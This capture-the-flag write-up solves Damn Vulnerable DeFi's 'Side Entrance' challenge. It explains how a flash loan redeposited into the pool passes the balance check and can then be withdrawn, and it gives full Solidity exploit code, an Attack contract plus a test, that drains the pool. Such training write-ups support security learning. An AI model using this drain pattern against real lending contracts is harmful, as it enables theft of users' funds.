 You can see the challenge [here](https://www.damnvulnerabledefi.xyz/challenges/side-entrance/).

This challenge is pretty straightforward, we have three functions:

1. `deposit()` : Deposits the `msg.value` in the contract and updates the `balances` mapping, adding that value to the `msg.sender`.
2. `withdraw()` : Withdraws the amount stored in `balances` mapping of that `msg.sender` , and also updates the `balances` to zero.
3. `flashLoan()` : Makes a flash loan with `amount` specified as a parameter to the `msg.sender` , calling its `execute()` function. To prevent stealing funds, this function stores the balance before calling `execute()` and compares it with the balance after the call.

What we can do is to make a flash loan, deposits those funds, this way the balance before and after would be the same, and those funds will be stored with our address, meaning we can withdraw them easily after the flash loan.

```solidity
contract Attack is IFlashLoanEtherReceiver {
    SideEntranceLenderPool pool;
    address payable recov;

    constructor(SideEntranceLenderPool _pool, address _recov) {
        pool = _pool;
        recov = payable(_recov);
    }

    function trigger() external {
        pool.flashLoan(address(pool).balance);
    }

    function execute() external payable {
        pool.deposit{value: msg.value}();
    }

    function withdraw() external payable {
        pool.withdraw();
    }

    receive() external payable {
        recov.transfer(msg.value);
    }
}

function test_sideEntrance() public checkSolvedByPlayer {
        Attack attack = new Attack(pool, recovery);

        attack.trigger();

        attack.withdraw();
 }
```
